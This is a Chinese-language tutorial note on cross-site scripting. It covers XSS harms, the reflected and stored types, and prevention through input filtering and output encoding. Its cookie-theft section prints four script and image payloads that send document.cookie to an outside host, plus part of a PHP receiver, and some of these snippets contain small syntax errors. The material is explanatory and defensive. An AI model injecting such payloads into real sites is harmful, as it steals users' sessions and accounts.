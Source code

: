# xss

XSS, 即为（Cross Site Scripting）, 中文名为跨站脚本, 是发生在目标用户的浏览器层面上的，当渲染DOM树的过程成发生了不在预期内执行的JS代码时，就发生了XSS攻击。

**xss的危害：**

(1)网络钓鱼，包括获取各类用户账号

(2)通过document.cookie盗取cookie

(3)会话劫持，从而执行任意操作，例如进行非法转账，强制发表日志、发送电子邮件等

(4)网页挂马

(5)弹出广告，刷流量

(6)篡改页面信息,使用js或css破坏页面正常的结构与样式,，删除文章等

(7)进行大量用户攻击，如DDoS攻击

(8)传播跨站脚本蠕虫

(9)获取用户的客户端信息，例如ip地址，浏览历史，开放端口号等

(10)结合其他攻击，例如CSRF，进行进一步攻击

...

### 1.xss分类

(1)反射型

反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。

(2)存储型

存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。

最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

### 2.xss攻击方式解析

(1)cookie 盗取

原理：
  
在一个具有存储型xss(或者反射型)的网站里，攻击者就可以向漏洞页面写入可以窃取cookie的恶意代码，当用户浏览页面时，攻击者就能获取用户浏览器中的cookie信息。

攻击者可以用以下几种方式窃取cookie信息：

```html
//方式一
<script>document.location="http://www.test.com/cookie.php?cookie="+document.cookie</srcipt>

//方式二
<img src="http://www.test.com/cookie.php?cookie="+document.cookie></img>

//方式三
<script>
  new Image().src="http://www.test.com/cookie.php?cookie="+document.cookie
</script>

//方式四
<script>
 document.write('<img src="http://www.test.com/cookie.php?cookie="+document.cookie/>')
</script>
```

在远程服务器上有记录和接受cookie信息的文件：

```php
<?php
$cookie=$_GET('cookie');
...
```

攻击者获取cookie信息后，还要与web系统建立会话，才能侵入用户的账户，建立会话通常需要能修改cookie的工具，例如桂林老兵cookie欺骗工具，firefox的浏览器插件firecookie等。

### 3.xss 预防

- XSS Filter
  xss本质是web应用服务的漏洞，解决问题的根本是在web应用程序的代码中消除xss漏洞
  - input Filtering
    - 客户端输入验证
    - 输入过滤消毒，把敏感字符串如<,>,&,",#，javascript,expression等过滤掉
  - output Filtering
    - 输出编码，将敏感字符转化为html实体编码，如<转化为&lt;






